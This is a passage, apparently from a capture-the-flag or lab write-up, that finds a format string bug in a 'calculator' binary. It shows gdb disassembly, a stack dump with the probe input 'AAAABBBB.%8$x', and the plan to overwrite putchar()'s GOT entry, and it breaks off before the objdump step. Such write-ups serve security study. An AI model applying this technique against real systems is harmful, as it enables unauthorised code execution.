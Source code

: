 My format string was showing up as the 8th and 9th parameter. Time to inspect it with gdb. gdb was installed on the target, so I transferred peda over and had a look at what was going on. The format string bug occurs in the calculator() function at offset 191

```
   0x080486b6 <+155>:   call   0x8048410 <strtol@plt>
   0x080486bb <+160>:   mov    DWORD PTR [ebp-0x10],eax
   0x080486be <+163>:   mov    eax,DWORD PTR [ebp-0x7c]
   0x080486c1 <+166>:   movzx  eax,BYTE PTR [eax]
   0x080486c4 <+169>:   cmp    al,0xa
   0x080486c6 <+171>:   je     0x80486f2 <calculator+215>
   0x080486c8 <+173>:   mov    DWORD PTR [esp],0x8048961
   0x080486cf <+180>:   call   0x80483b0 <printf@plt>
   0x080486d4 <+185>:   mov    eax,DWORD PTR [ebp-0x7c]
   0x080486d7 <+188>:   mov    DWORD PTR [esp],eax
=> 0x080486da <+191>:   call   0x80483b0 <printf@plt>
   0x080486df <+196>:   mov    DWORD PTR [esp],0xa
   0x080486e6 <+203>:   call   0x8048400 <putchar@plt>

```

This execution branch is only taken if the second number isn't a number. Breaking at this location after entering the format string shows that it's being used as the argument to printf():

```
[-------------------------------------code-------------------------------------]
   0x80486cf <calculator+180>:  call   0x80483b0 <printf@plt>
   0x80486d4 <calculator+185>:  mov    eax,DWORD PTR [ebp-0x7c]
   0x80486d7 <calculator+188>:  mov    DWORD PTR [esp],eax
=> 0x80486da <calculator+191>:  call   0x80483b0 <printf@plt>
   0x80486df <calculator+196>:  mov    DWORD PTR [esp],0xa
   0x80486e6 <calculator+203>:  call   0x8048400 <putchar@plt>
   0x80486eb <calculator+208>:  mov    eax,0x1
   0x80486f0 <calculator+213>:  jmp    0x8048749 <calculator+302>
Guessed arguments:
arg[0]: 0xbff88eb0 ("AAAABBBB.%8$x\n")
[------------------------------------stack-------------------------------------]
0000| 0xbff88e90 --> 0xbff88eb0 ("AAAABBBB.%8$x\n")
0004| 0xbff88e94 --> 0xbff88eac --> 0xbff88eb0 ("AAAABBBB.%8$x\n")
0008| 0xbff88e98 --> 0xa ('\n')
0012| 0xbff88e9c --> 0x4005e160 (add    ebx,0x171e94)
0016| 0xbff88ea0 --> 0x401d0ac0 --> 0xfbad2288 
0020| 0xbff88ea4 --> 0x40020ff4 --> 0x20f1c 
0024| 0xbff88ea8 --> 0x40021918 --> 0x0 
0028| 0xbff88eac --> 0xbff88eb0 ("AAAABBBB.%8$x\n")
[------------------------------------------------------------------------------]
```

With a format string bug, the most likely case of exploitation would be to use it to overwrite the GOT entry of a function so that when said function is later called, it would execute whatever instructions I had pointed it to. Based on the above information, putchar() was the next function called, so I decided to overwrite its address with some junk and see what the stack looked like. 

First, I had to get putchar()'s GOT entry. Easily done with objdump:
